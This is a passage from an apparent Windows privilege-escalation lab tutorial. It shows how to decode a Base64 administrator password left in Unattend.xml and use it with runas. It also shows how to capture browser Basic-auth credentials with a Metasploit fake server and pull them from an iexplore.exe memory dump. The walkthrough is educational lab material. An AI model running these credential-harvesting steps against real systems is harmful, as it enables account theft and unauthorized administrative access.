  The `Unattend.xml` file allows administrators to configure and automate a wide-scale Windows deployment. If this file is not properly cleaned up after installation, it can leave a local administrator's password on the system. While the password is often encoded in Base64, this is not a form of encryption and can be easily reversed to reveal the plaintext password.
  
  💥 Exploitation
  ---------------
  
  The exploitation process involves finding the `Unattend.xml` file, extracting the encoded password, and decoding it.
  
  ### 1\. Finding the Password (Windows VM)
  
  1.  Locate and Read the Unattend.xml File
  
      These files are often found in C:\Windows\Panther\. Open a command prompt on the Windows VM and use the type command to display its contents.
  
      
  
      ```ruby
      type C:\Windows\Panther\Unattend.xml
  
      ```
  
  2.  Extract the Encoded String
  
      Look through the XML output for the <Password> section. Inside, you will find a <Value> tag containing a Base64 string.
  
      
  
      ```xml
      <UserAccounts>
          <AdministratorPassword>
              <Value>QWRtaW5QYXNzd29yZDEyMyE=</Value>
              <PlainText>false</PlainText>
          </AdministratorPassword>
      </UserAccounts>
  
      ```
  
      Copy the Base64 string from between the `<Value>` tags (in the example above: `QWRtaW5QYXNzd29yZDEyMyE=`).
  
  ### 2\. Decoding the Password (Kali VM)
  
  1.  Decode the Base64 String
  
      On your Kali machine, use the echo and base64 -d commands to decode the string you copied.
  
      
  
      ```Bash
      echo <COPIED_BASE64_STRING> | base64 -d
  
      ```
  
  2.  Reveal the Plaintext Password
  
      The output will be the plaintext administrator password.
  
      
  
      ```Bash
      # Example using the string from above
      echo QWRtaW5QYXNzd29yZDEyMyE= | base64 -d
      AdminPassword123!
  
      ```
  
  ✅ Gaining Access
  ----------------
  
  Now that you have the administrator's password, you can use it to escalate your privileges.
  
  1.  Switch to the Administrator Account
  
      On the Windows VM, you can now use these credentials with commands like runas to execute commands as the administrator or simply log out and log back in as the administrator.
  
      DOS
  
      ```
      runas /user:Administrator cmd.exe
  
      ```
  
      Enter the decoded password when prompted, and you will be granted a new command prompt with administrative privileges.
  
      <img width="640" height="154" alt="image" src="https://github.com/user-attachments/assets/1d27a0df-de9a-4831-9e45-dd6e09805369" />

  
      ```xml
       <AutoLogon>
                <Password>
                    <Value>cGFzc3dvcmQxMjM=</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>Admin</Username>
            </AutoLogon>
      ```




  </details>



- <details>
      <summary>Memory</summary>





  
  
  Windows Privilege Escalation: Password Mining from Process Memory
  =================================================================
  
  This guide demonstrates a technique for extracting credentials from the memory of a running process. When applications handle authentication, credentials may temporarily reside in the process's memory in plaintext or a weakly encoded format (like Base64). By creating a memory dump of a process after it has authenticated, an attacker with local access can search the dump file to recover those credentials.
  
  ⚙️ The Setup
  ------------
  
  This attack requires two parts: setting up a fake server to prompt for credentials and then having the user on the target machine authenticate to it.
  
  ### 1\. Setting Up a Fake Authentication Server (Kali VM)
  
  We will use a Metasploit auxiliary module to quickly create a web server that requests HTTP Basic Authentication.
  
  1.  **Start Metasploit**
  
      Bash
  
      ```
      msfconsole
  
      ```
  
  2.  Configure the HTTP Basic Auth Capture Server
  
      This module will listen for connections and record any credentials it receives.
  
      Ruby
  
      ```
      msf6 > use auxiliary/server/capture/http_basic
      msf6 auxiliary(server/capture/http_basic) > set uripath /x
      msf6 auxiliary(server/capture/http_basic) > run
  
      ```
  
      Metasploit is now listening for incoming connections.
  
  ### 2\. Triggering Authentication (Windows VM)
  
  1.  On the Windows VM, open Internet Explorer and browse to the server you just set up.
  
      ```
      http://<Your Kali VM IP Address>/x
  
      ```
  
  <img width="1821" height="675" alt="image" src="https://github.com/user-attachments/assets/4718474d-6acd-4df6-8664-67aeecbdb206" />
  
  
  2.  Internet Explorer will display an authentication prompt. Enter any username and password (e.g., `user` / `password123`) and click OK. These credentials will now be stored temporarily in the `iexplore.exe` process memory.
  
  💥 Exploitation: Memory Analysis
  --------------------------------
  
  Now that the credentials are in memory, we will create a dump of the browser process and analyze it on our Kali machine.
  
  ### 1\. Creating the Memory Dump (Windows VM)
  
  1.  Open Task Manager
  
      On the Windows VM, right-click the taskbar and select Task Manager, or press Ctrl+Shift+Esc.
  
  2.  **Create the Dump File**
  
      -   Go to the **Details** tab.
  
      -   Find and right-click on the **`iexplore.exe`** process.
  
      -   Select **Create dump file** from the context menu.
  
      -   Note the location where the `iexplore.DMP` file is saved.
  
  
  
  
  
  3.  Transfer the Dump File
  
      Copy the generated iexplore.DMP file from the Windows VM to your Kali machine (e.g., to the Desktop).
  
  
  
  
  
  
  ### 2\. Finding and Decoding the Credentials (Kali VM)
  
  1.  Search the Dump for Authentication Headers
  
      On your Kali machine, open a terminal. Use the strings command to find human-readable text in the dump file and grep to filter for the HTTP Basic Authentication header.
  
      Bash
  
      ```
      strings ~/Desktop/iexplore.DMP | grep "Authorization: Basic"
  
      ```
  
      The output will be the full header, including a Base64 encoded string. For example:
  
      ```
      Authorization: Basic dXNlcjpwYXNzd29yZDEyMw==
  
      ```
  
  2.  Decode the Base64 String
  
      Copy only the Base64 string from the previous output. Use echo and base64 -d to decode it.
  
      Bash
  
      ```
      echo -ne 'dXNlcjpwYXNzd29yZDEyMw==' | base64 -d
  
      ```
  
  3.  Reveal the Credentials
  
      The output will be the plaintext credentials that were entered into the browser.
  
      ```
      user:password123
  
      ```
  
      This confirms the successful extraction of credentials from the process memory dump.
  
  
  
  
  
  
  





  </details>





  
</details>



<details>
  <summary>Privilege Escalation - Kernel Exploits</summary>
</details>











